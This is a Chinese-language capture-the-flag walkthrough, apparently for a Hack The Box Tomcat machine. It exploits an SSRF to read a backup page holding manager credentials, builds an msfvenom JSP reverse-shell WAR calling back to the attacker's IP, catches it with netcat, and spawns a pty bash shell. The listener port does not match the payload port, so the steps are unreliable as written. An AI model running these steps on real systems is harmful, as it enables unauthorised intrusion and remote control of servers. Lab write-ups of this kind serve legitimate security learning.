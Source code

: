 - Trying

访问备份页面的地址`http://10.10.10.55:60000/url.php?path=http://localhost:888/?doc=backup`
url编码一下`http%3A%2f%2f10.10.10.55%3A60000%2furl.php%3Fpath%3Dhttp%3A%2f%2flocalhost%3A888%2f%3Fdoc%3Dbackup`
得到了可能是tomcat配置文件中的用户名密码。

（有一个小技巧，在端口扫描那一步，得到了不能访问的文件名，可以用ssrf去访问，来获取敏感文件。）

我们用这个口令登陆端口扫描那一步获得的地址`manager/html`


#### **获取shell**
刚刚通过ssrf获取敏感文件，从而突破防线，接下来，我们要获取一个shell。

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-02/7.PNG)
用msfvenom生成一个payload，接下来要将它上传到目标机上运行。
因为主页面上有上传功能，提示：
```
deploy directory or WAR file located on server.
war file to deploy 
select war file to upload.
```
暗示了我们可以上传一个war类型的反弹shell。
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=1234 -f war > ippsec.war

`War——web归档文件，war文件用于封装web模块。web模块可以代表一个独立的web应用程序。`

- Trying

成功上传——本地nc监听80端口`nc -lnvp 80`——浏览器访问payload地址，即可获得一个shell。

- shell中运行
 
`python -c 'import pty;pty.spawn("/bin/bash")'` 于是获得一个bash shell。

- find . -name "user.txt" 2>/dev/null
`/home/atanas/user.txt` can't read
